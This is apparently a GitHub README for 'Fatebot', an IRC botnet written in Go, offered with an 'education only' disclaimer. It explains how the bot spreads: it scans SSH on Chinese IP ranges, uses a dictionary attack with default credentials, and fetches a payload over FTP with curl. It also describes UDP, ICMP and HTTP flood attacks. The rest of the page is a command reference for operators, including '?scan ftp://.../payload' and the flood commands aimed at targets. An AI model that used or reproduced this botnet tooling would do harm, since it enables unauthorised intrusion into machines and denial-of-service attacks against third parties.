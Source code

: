 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.2
This is my first IRC botnet for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="media/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more or change it, if you want.)</strong>
This botnet use curl to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range(1-5), And comment a function of running session.(That why bot is not join The server.)</strong>
<img src="media/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood. Mainly DDoS function is on <strong>The Application layer</strong>, And my recommand is a HTTP post flood.

<img src="media/posttraffic.png" alt="http post flood, dos example">

# Update List.
<p>Fatebot v0.1: Fatebot open release.</p>
<p>Fatebot v0.2: Get bot system information function.</p>
<p>Fatebot v0.2d: Add multiple ddos function like UDP nad Post flood at The same time.(I know it really stupid.)</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
